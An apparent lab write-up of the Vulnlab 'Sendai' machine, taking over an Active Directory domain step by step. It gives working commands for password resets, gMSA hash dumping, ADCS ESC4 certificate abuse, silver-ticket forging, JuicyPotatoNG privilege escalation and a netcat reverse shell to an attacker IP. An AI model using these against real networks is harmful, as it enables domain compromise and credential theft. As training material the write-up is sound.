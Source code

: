 
# Vulnlab - Sendai

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus           
80/tcp    open  http          Microsoft IIS httpd 10.0  
|_http-server-header: Microsoft-IIS/10.0
88/tcp open  kerberos-sec
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl            
| Issuer: commonName=dc.sendai.vl                                     
|_http-server-header: Microsoft-IIS/10.0                
| http-methods:                                
|_  Supported Methods: GET
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.sendai.vl
| Issuer: commonName=dc.sendai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-04T16:24:01
| Not valid after:  2024-11-03T16:24:01
| MD5:   6198fc32527e478294e38fd5c6a2b81e
|_SHA-1: 73b4d1026b49e0cb9c0d633982377e74f32b7db3
|_ssl-date: 2024-05-05T16:28:56+00:00; -1m22s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
56740/tcp open  unknown
56744/tcp open  unknown
```

## PORT 80/443

<img src="https://i.imgur.com/2xyBd1B.png"/>
 
Running gobuster, we can find `/service`

<img src="https://i.imgur.com/41s7K0i.png"/>

However this endpoints shows that we don't have access to it

<img src="https://i.imgur.com/YgAmiLH.png"/>
## PORT 445
Enumerating smb shares with anonymous login, we'll see `config`, `sendai` and `Users` share, where config was not accessible, Users didn't anything but sendai had some interesting files

<img src="https://i.imgur.com/mQaCMNk.png"/>

<img src="https://i.imgur.com/OjZZNAR.png"/>

<img src="https://i.imgur.com/kSTgBfG.png"/>

The incident talked about users having weak passwords, all users will be prompted to change their password on logging in, the transfer directory had user's directories

<img src="https://i.imgur.com/Ob5kSkE.png"/>

## Resetting domain user's password

These users can also be enumerated through `lookupsid` by brute forcing sids

<img src="https://i.imgur.com/cNM7HDk.png"/>
On trying to login with null password, we'll get two users with password to be changed

<img src="https://i.imgur.com/bWjdAf4.png"/>
Password can be changed with `impacket-smbpasswd`

```bash
impacket-smbpasswd  sendai.vl/Thomas.Powell@dc.sendai.vl -newpass '$aduwu123'
```

<img src="https://i.imgur.com/2naixZH.png"/>

<img src="https://i.imgur.com/3NWYOCE.png"/>
From config share, we can grab `.sqlconfig` having credentials to MSSQL

<img src="https://i.imgur.com/iOaiZ2c.png"/>

<img src="https://i.imgur.com/oQ0cAH9.png"/>

But this service isn't exposed to us so moving on to enumerating the domain with bloodhound

```bash
python3 bloodhound.py -u sqlsvc -p password -d sendai.vl -c all -dc dc.sendai.vl -ns 10.10.104.41
```

<img src="https://i.imgur.com/JM5mhTv.png"/>

Thomas.Powell is a member of `Support` group has `GenericAll` on `ADMSVC` group which has `ReadGMSAPassword` on `MGTSVC$` account. We'll need to add thomas in ADMSVC group, read the NThash of MGTSVC account

<img src="https://i.imgur.com/BRPHbql.png"/>
## Abusing GenericAll and reading GMSA password

Through` bloodyAD` we can add thomas in ADMSVC group having genericall rights

```bash
 python3 bloodyAD.py  --host "10.10.104.41" -d 'sendai.vl' -u 'thomas.powell' -p '$aduwu123' add groupMember ADMSVC thomas.powell
```

<img src="https://i.imgur.com/cS1zoYy.png"/>

With gmsadumper script or with netexec we can dump the nthash of mgtsvc account

```bash
python3 gMSADumper.py -u 'thomas.powell' -p '$aduwu123' -d sendai.vl -l 10.10.104.41
```

<img src="https://i.imgur.com/ina1lCb.png"/>

This account can login on DC as it's part of `Remote Management` group

<img src="https://i.imgur.com/uwRvgKc.png"/>

Checking the privileges after logging in through evil-winrm, it doesn't have any privilege that we can abuse to get local admin

<img src="https://i.imgur.com/jxAX90R.png"/>
## Obtaining clifford's password

From the running process, we have helpdesk which doesn't normally run on a system

<img src="https://i.imgur.com/IxlngBF.png"/>

Enumerating the system with `PrivescCheck.ps1`

<img src="https://i.imgur.com/yO9Rckp.png"/>

This will list down the running processes from where we'll find the clifford.davey's creds

<img src="https://i.imgur.com/NPt3pB3.png|"/>

## Enumerating ADCS

This user belongs to `CA-Operators` group, so this likely will be able to enroll in a custom template, enumerating templates with `certipy`

<img src="https://i.imgur.com/Vgev4wX.png"/>
## Escalating privileges through ESC4

```bash
certipy find -u clifford.davey -vulnerable -target dc.sendai.vl -dc-ip 10.10.115.126 -stdout
```

This lists down a template `SendaiComputer` which has EKU set to `Client Authentication` that can be used to authenticate on the system and ca-operators group has Full control over this template which means we can edit this template and impersonate as the domain admin, which is known as ESC4 (access control) abuse

<img src="https://i.imgur.com/mQUF4HH.png"/>

<img src="https://i.imgur.com/A10lXkN.png"/>

With certipy, we can change the configuration of this template to allow domain users to enroll for this template and impersonate any user 

```bash
certipy template -u clifford.davey -target dc.sendai.vl -dc-ip 10.10.115.126 -template SendaiComputer
```

<img src="https://i.imgur.com/YycVHAi.png"/>
<img src="https://i.imgur.com/FEVEUWg.png"/>

```bash
certipy req -u 'clifford.davey' -ca 'sendai-DC-CA' -dc-ip 10.10.115.126 -target dc.sendai.vl -template 'SendaiComputer' -upn administrator
```

<img src="https://i.imgur.com/pCSgIFn.png"/>

```bash
certipy auth -pfx ./administrator.pfx -domain sendai.vl
```

<img src="https://i.imgur.com/vgGRaVx.png"/>

## Escalating with SeImpersonate privilege

Another way of escalating privileges is through mssql, since mssql is running internally, having access on the machine we can port forward with`chisel`

```bash
chisel server -p 2222 --reverse
chisel.exe client 10.8.0.136:2222 R:socks
```
<img src="https://i.imgur.com/hSVXA3l.png"/>

But we'll get login denied for sqlsvc account

<img src="https://i.imgur.com/7dUxhoi.png"/>

With `ticketer,` forging a silver ticket for accessing MSSQL service as an administrator

```bash
ticketer.py -domain-sid S-1-5-21-3085872742-570972823-736764132 -domain sendai.vl -spn MSSQL/dc.sendai.vl -nthash hash Administrator
```


<img src="https://i.imgur.com/iOKxMa4.png"/>

<img src="https://i.imgur.com/ZlBgszU.png"/>

Enabling `xp_cmdshell` which will allow us to execute system commands as sqlsvc

<img src="https://i.imgur.com/DDGiMXV.png"/>

The difference here is that we'll have `SeImpersonate` privilege, which can abuse to get local admin

<img src="https://i.imgur.com/CvG90gg.png"/>

<img src="https://i.imgur.com/tdEDy5t.png"/>

Using `juicypotato-ng` to abuse the privilege and get a shell a SYSTEM

```bash
.\JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Users\sqlsvc\nc.exe 10.8.0.136 4444 -e cmd.exe"
```

<img src="https://i.imgur.com/22805js.png"/>
# References

- https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/
- https://github.com/itm4n/PrivescCheck
- https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services
